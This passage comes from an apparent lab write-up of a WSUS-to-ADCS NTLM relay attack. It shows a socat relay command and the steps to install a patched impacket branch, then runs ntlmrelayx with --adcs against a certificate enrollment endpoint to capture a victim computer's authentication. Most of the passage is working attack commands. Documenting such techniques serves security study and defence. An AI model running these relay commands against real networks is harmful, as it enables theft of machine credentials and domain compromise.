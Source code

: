 - Use of socat 

```bash
~ sudo apt install socat
~ sudo socat TCP-LISTEN:8530,fork TCP:80
```
So we are ready to relay all incoming traffing to our HTTP 80 port to the ADCS web enrollment HTTP server. There comes the use of ntlmrelayx to perform the relay. 

>[!IMPORTANT]
>Make sure to use ExtAndroidDev pull [request](https://github.com/fortra/impacket/pull/1101/commits/81afc66904068e33c866bc9d005262c9ce69bad6) or [Dirkjann's httpattack.py version](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattack.py) . As Dirk-jan explained it in his [blog post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)  servers/computers are not supposed to request certificates so the Web enrollment page gives them back the error ''No certificate templates could be found. You do not have permission to request a certificate from this CA, or an error occurred while accessing the Active Directory.'' There is how we proceeded in our lab to make the relay work:

```bash
python3 -m venv env
source env/bin/activate
git clone https://github.com/SecureAuthCorp/impacket ./impacket
cd impacket
git fetch origin pull/1101/head:ntlmrelayx-adcs-attack
git checkout ntlmrelayx-adcs-attack
python3 setup.py install
cd examples
python3 ntlmrelayx.py -t http://192.168.56.105/certsrv/certfnsh.asp -smb2support --adcs
```
We can wait for a windows update client to request wsus server, or if we have access to compromise host, we search for updates. Here is CURSE-COMP victime computer looking for updates:

![Windows client looking for updates](assets/img/windows_client_looks_for_updates.png)
